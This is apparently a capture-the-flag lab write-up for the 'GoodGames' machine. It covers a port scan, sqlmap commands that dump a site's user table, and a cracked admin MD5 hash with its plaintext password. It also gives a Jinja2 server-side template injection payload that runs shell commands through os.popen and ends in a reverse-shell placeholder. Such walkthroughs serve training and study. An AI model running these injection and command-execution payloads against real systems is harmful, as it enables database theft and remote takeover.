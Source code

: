 # Goodgames Write-Up

Easy

Tags:
`SQL`
`SQLi`
`SSTI`
`Python`
`Docker`
`Attacks/Weak Password`


## Intro

1. 

## Enumeration

### Port scanning

```
PORT   STATE SERVICE  VERSION
80/tcp open  ssl/http Werkzeug/2.0.2 Python/3.9.2
```

## Explotaion

### SQL injection

use Burpsuite to interept Sign in form on site => save request to `goodgames.req`

use sqlmap

```
sqlmap -r goodgames.req -p email --dbs
```

```
sqlmap -r goodgames.req -D main --tables
```

```
sqlmap -r goodgames.req -D main -T user --dump
```

```
Database: main
Table: user
[2 entries]
+----+---------+---------------------+----------------------------------+
| id | name    | email               | password                         |
+----+---------+---------------------+----------------------------------+
| 1  | admin   | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec |
| 2  | <blank> | foo-bar@example.com | 903a98d709fa4683aaaa036b84c125a6 |
+----+---------+---------------------+----------------------------------+
```

decode MD5 to plant text via `hashcat` or `googling`

```
2b22337f218b2d82dfc3b6f77e7cb8ec:superadministrator
```

Login to http://internal-administration.goodgames.htb (add `internal-administration.goodgames.htb` to `/etc/hosts`)

### Server site template injection

Exploit the SSTI by calling subprocess.Popen.
[jinja2](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python)

insert bash shell to `<command>`

```bash
{{config.__class__.__init__.__globals__['os'].popen('<command>').read()}}
```

```
bash -c "<bash reverse shell>"
```
